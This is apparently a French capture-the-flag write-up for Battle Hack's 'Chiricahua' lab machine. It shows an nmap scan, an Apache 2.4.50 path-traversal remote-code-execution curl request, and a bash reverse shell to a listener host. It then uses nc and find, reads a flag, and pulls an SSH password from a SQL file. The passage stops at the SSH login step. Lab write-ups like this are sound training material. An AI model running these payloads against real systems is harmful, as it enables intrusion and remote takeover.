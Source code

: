 I. Lancement de la machine virtuelle
Dans le site de Battle Hack, nous allons dans le mode Campaign et ont choisi CHRICAHUA dans la
saison 1 comme environnement Virtuel.
Figure 1 Machine virtuel Chiricahua
II. Nmap
Une fois la machine on installe le VPN et on lance la commande :
sudo nmap -A 10.42.4.36
[sudo] Mot de passe de kali :
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-26 08:50 CEST
Nmap scan report for 10.42.4.36
Host is up (0.097s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 efaa21cb7964499f45acb1c4789d1916 (RSA)
| 256 63ede9ddff06cba186fe9bad16faacad (ECDSA)
|_ 256 b392b3cb12d160549ed18314426c29b9 (ED25519)
80/tcp open http Apache httpd 2.4.50 ((Unix))
|_http-server-header: Apache/2.4.50 (Unix)
|_http-title: Chiricahua
| http-methods:
|_ Potentially risky methods: TRACE
Ce qu’on sait, les ports 22 (SSH) et 80 http sont ouvert. Sur le port 80 en http, on accède à une page
WEB :
Figure 2 Page Web Chiricahua
III. Analyse de la vulnérabilité
Sur internet on recherche la vulnérabilité « apache 2.4 50 ».
On trouve un script à télécharger, on récupère un script qu’on injecte comme ci-dessous :
Curl
"http://10.42.4.36/cgibin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%
32%65/bin/sh" -d "echo;id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Création d’un fichier texte auxquels on va ajouter ce script :
bash -i >& /dev/tcp/10.201.0.5/4244 0>&1
Il permet d’ouvrir une connexion avec l’adresse local de la machine.
On exécute le script python.
python3 -m http.server
On vient de lancer la connexion pendant ce temps-là on lance le port d’écoute :
nc -lnvp 4244
IV. Accès à la machine
Une fois lancé, on accède à la machine.
<-b63d-4aed-b5f6-069fbc25833a-5c77c5f664sbbcx:/bin$
On va localiser à l’aide de la commande FIND :
find / -user geronimo 2>/dev/null | grep -v '/proc'
/home/geronimo
/home/geronimo/.bash_logout
/home/geronimo/.bashrc
/home/geronimo/.profile
/etc/init.d/goyahkla
/etc/mysql/war.sql
On voit plusieurs dossiers, d’abord on va voir le fichier /home/geronimo et on trouvera un fichier
user.txt. On trouvera le premier flag.
-b5f6-069fbc25833a-5c77c5f664sbbcx:/home/geronimo$ cat user.txt
cat user.txt
FLAG{3b3GZi6u12}
On recherche le fichier /etc/mysql/war.sql
On trouvera le mot de passe ssh de l’utilisateur Goyahkla.
IDENTIFIED BY '6yFwwB4yN
On se connecte en ssh.
ssh geronimo@IPaddress